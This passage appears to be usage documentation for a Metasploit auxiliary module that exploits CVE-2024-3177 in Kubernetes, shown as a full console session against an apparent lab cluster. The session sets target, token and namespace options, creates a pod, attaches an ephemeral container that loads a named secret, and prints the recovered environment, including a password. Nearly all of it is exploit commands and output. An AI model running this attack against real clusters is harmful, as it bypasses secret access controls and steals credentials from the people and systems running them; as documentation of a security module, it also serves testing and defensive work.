 ### Run it with ephemeral containers to exploit the CVE-2024-3177  
Explicitly setting RHOST and TOKEN to enumerate the secrets specified in the SECRET_NAME option:
```
msf6 > use cloud/kubernetes/double_secrets_cve
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set CONTAINER_TYPE ephemeral
CONTAINER_TYPE => ephemeral
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RHOSTS 192.168.49.2
RHOSTS => 192.168.49.2
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set RPORT 8443
RPORT => 8443
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SECRET_NAME dvwa-secrets
SECRET_NAME => dvwa-secrets
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set NAMESPACE dvwa-tfm-mysql
NAMESPACE => dvwa-tfm-mysql
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > set POD_NAME cve-pod-3
POD_NAME => cve-pod-3
msf6 auxiliary(cloud/kubernetes/enum_kubernetes) > set TOKEN eyJhbGciO...
TOKEN => eyJhbGciO...
msf6 auxiliary(cloud/kubernetes/double_secrets_cve) > run
[*] Running module against 192.168.49.2

[*] Fetching Kubernetes server version...
[+] Kubernetes server version: v1.27.2
[+] The kube-apiserver version v1.27.2 is vulnerable to the selected CVE.
[*] Creating pod with the following spec: {"apiVersion":"v1","kind":"Pod","metadata":{"name":"cve-pod-3","namespace":"dvwa-tfm-mysql"},"spec":{"containers":[{"name":"ephemeral-main-container","image":"busybox","command":["/bin/sh"],"args":["-c","sleep 3600"]}],"restartPolicy":"Never"}}
[*] Pod not found, creating a new one.
[+] Pod created successfully: cve-pod-3
[*] Waiting for pod cve-pod-3 to be ready...
[*] Pod cve-pod-3 status: Pending
[+] Pod cve-pod-3 is running.
[*] Adding ephemeral container with the following spec: {"name":"ephemeral-container","image":"busybox","envFrom":[{"secretRef":{"name":"dvwa-secrets"}}],"command":["/bin/sh"],"args":["-c","sleep 3600"]}
[*] Ephemeral container addition response code: 200
[*] Ephemeral container addition response message: OK
[+] Successfully added ephemeral container to pod cve-pod-3
[*] Waiting for ephemeral container to be ready...
[*] Ephemeral container status: {:waiting=>{:reason=>"ContainerCreating"}}
[*] Reason: ContainerCreating
[+] Ephemeral container is running.
[*] Waiting for ephemeral container to be ready...
[+] Ephemeral container is running.
[*] Retrieving environment variables from ephemeral container using Kubernetes API...
[*] WebSocket connection opened

KUBERNETES_PORT=tcp://10.96.0.1:443
KUBERNETES_SERVICE_PORT=443
DVWA_MYSQL_SERVICE_PORT_3306_TCP_ADDR=10.99.148.252
HOSTNAME=cve-pod-3
SHLVL=1
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PORT=3306
HOME=/root
DVWA_MYSQL_SERVICE_SERVICE_HOST=10.99.148.252
DVWA_MYSQL_SERVICE_PORT_3306_TCP_PROTO=tcp
** SECRET ** DVWA_PASSWORD=p@ssw0rd ** SECRET **
DVWA_MYSQL_SERVICE_PORT=tcp://10.99.148.252:3306
DVWA_MYSQL_SERVICE_SERVICE_PORT=3306
```